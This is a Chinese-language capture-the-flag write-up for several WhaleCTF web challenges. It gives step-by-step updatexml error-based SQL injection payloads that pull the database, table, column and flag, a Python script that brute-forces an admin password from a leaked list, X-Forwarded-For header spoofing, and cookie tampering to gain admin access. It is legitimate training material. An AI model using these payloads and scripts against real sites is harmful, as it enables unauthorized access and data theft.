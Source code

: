 ```yaml
---
title: whalectf_web
date: 2019-03-12 15:16:19
tags:
    - CTF
categories:
    - CTF
    - writeup
---
```

### SQL注入[](http://codeqi.top/2018/02/05/WhaleCTF-WriteUp/#sql注入)

首先，我们输入1，返回正常页面

然后我们在输入1’，报错

```bash
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
```
<!--more-->
可以看出，这题我们不需要去闭合引号啥的

接着，我们利用order by语句，查询列数

```bash
1 order by 1
```

最终得到一共有4列

接着进入正题，我们这里使用xmlupdate的报错注入

**1\. 查询数据库名**

```
1 and updatexml(1,concat(0x7e,(mid((select database()),1,31))),1)

```

提交，成功得到数据库名

```
XPATH syntax error: '~sqli'

```

**2\. 查询表名**

```
1 and updatexml(1,concat(0x7e,(mid((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,31))),1)
```

提交得到

```
XPATH syntax error: '~flag'

```

很显然，这就是flag所在的表

**3\. 查询列名**

```
1 and updatexml(1,concat(0x7e,(mid((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,31))),1)

```

提交得到

```
XPATH syntax error: '~flag'

```

也很显然，flag肯定在这一列

**4\. 查询字段**

```
1 and updatexml(1,concat(0x7e,(mid((select flag from flag limit 0,1),1,31))),1)

```

提交得到

```
XPATH syntax error: '~abcd1234'

```

根据题目要求，flag{abcd1234}

### Find me[](http://codeqi.top/2018/02/05/WhaleCTF-WriteUp/#find-me)

查看源代码

在注释中找到flag:{This_is_s0_simpl3}

### http呀[](http://codeqi.top/2018/02/05/WhaleCTF-WriteUp/#http呀)

burpsuit抓包发现没有数据包，猜测不是这个页面，html改成php,发现还是跳转到html

用curl看一下index.php返回结果

```
qiqi@qiqi-Mac ~> curl http://39.107.92.230/web/web2/index.php
<html><head><meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Careful</title>
</head>
<body alink="#007000"  bgcolor="#000000" link="gold" text="#008000" vlink="#00c000">
<center>
<br><br>
<center>
<h1>Do you know what happend just now?!</h1>
<script>
window.location.href="index.html";
</script>
</center>
<br>
<br>
<br>
<!--flag:{Y0u_ar3_s0_Car3ful}-->
</html>

```

这样我们就得到了flag:{Y0u_ar3_s0_Car3ful}

### 本地登陆[](http://codeqi.top/2018/02/05/WhaleCTF-WriteUp/#本地登陆)

题目要求本地登陆，我们很容易想到XFF头

所以抓包添加XFF头部

X-Forwarded-For: 127.0.0.1

得到新的提示：You are not admin.Get out!

于是我们还要将isadmin的值改为1

最终成功得到flag:{Why_ar3_y0u_s0_dia0}

### 密码泄露[](http://codeqi.top/2018/02/05/WhaleCTF-WriteUp/#密码泄露)

查看源代码，发现password.txt文件，发现里面有很多密码，但我们不可能一个一个去试

直接上python

```python
import requests
url = "http://39.107.92.230/web/web5/password.txt"
r = requests.get(url)
res = r.text.split('\r\n')
for i in res:
  r = requests.post("http://39.107.92.230/web/web5/index.php", data={'username':'admin', 'password':i})
  if "False" not in r.text:
    print i
    break

```
或者将获得的字典加载到burpsuit中暴力破解
得到密码：Nsf0cuS

输入，进入新页面，说这里没有flag

我们打开开发者工具，在Network选项中，我们在cookie一栏，看到newpage，后面是一串很像base64编码的字符，解码得到290bca70c7dae93db6644fa00b9d83b9.php

进入页面，提示要以小黑的身份留言

于是抓包

将IsLogin的值改为1

一开始尝试把userlevel改为admin，后来发现应该改为root

发送请求，在Set-Cookie头部看到Flag=flag%7BC0ngratulati0n%7D

URL编码解码得到flag{C0ngratulati0n}

